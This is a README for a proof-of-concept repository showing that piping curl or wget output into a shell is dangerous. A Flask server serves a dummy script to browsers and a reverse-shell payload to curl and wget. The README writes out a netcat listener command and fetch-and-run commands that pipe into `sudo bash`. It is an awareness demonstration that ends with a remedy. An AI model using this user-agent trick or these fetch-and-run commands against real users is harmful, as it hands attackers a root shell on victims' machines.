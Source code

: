 # piping-to-shell-PoC
Proof of Concept why piping from curl/wget to shell is asking for trouble. Flask is used as the web server and check if the user agent contains "Wget" or "curl". By default none of them mask the user-agent field. If the user agent is not wget/curl a dummy script is shown. Else, if bash is run as root a reverse shell will spawn.

## Demonstration
* First of all, setup the server.
	* `python3 server.py`
* Open a browser and access `/script.sh`. The dummy script should appear.
	* ![Browser](./images/browser_output.png)
* Open a new terminal and setup a listener for the reverse shell.
	* `nc -nvlp 5555`
* In a new terminal use wget or curl to download the file and pipe it to bash.
	* `wget -O- localhost:5000/script.sh | sudo bash`
	OR
	* `curl localhost:5000/script.sh | sudo bash `

![Reverse Shell](./images/reverse_shell.png)

## Remedy

Don't pipe into shell (especially using sudo) or at least curl/wget the file before executing it :). 
